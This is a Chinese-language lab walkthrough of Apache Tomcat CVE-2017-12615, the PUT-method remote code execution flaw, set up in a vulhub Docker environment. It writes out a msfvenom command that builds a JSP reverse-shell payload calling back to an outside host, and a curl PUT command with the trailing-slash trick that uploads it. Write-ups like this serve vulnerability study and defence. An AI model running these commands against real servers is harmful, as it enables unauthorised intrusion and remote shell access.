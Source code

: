 ```yaml
---
Title: Apache Tomcat 远程代码执行漏洞 CVE-2017-12615
---
```


# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

<a-checkbox checked>Apache Tomcat 7.0.0 - 7.0.81</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![cbe1eedd-5a2a-4147-b44c-d2789769015f](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/cbe1eedd-5a2a-4147-b44c-d2789769015f.png)

## 漏洞复现

漏洞产生的主要原因来自于`conf/web.xml`文件配置错误,readonly开启了false,导致可以使用`PUT/DELETE`请求方法操作文件

![291a35c3-469d-48b6-a65d-92270dfe6024](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/291a35c3-469d-48b6-a65d-92270dfe6024.png)

`msf`生成一个`jsp`木马

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```shell
curl -v -X PUT --data-binary @shell.jsp "http://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```

<a-alert type="success" message='注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要' description="" showIcon>
</a-alert>

<br/>

成功上传木马文件

![a963d85c-3514-490e-905f-1b6193c75adf](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/a963d85c-3514-490e-905f-1b6193c75adf.png)

访问文件即可反弹一个`shell`

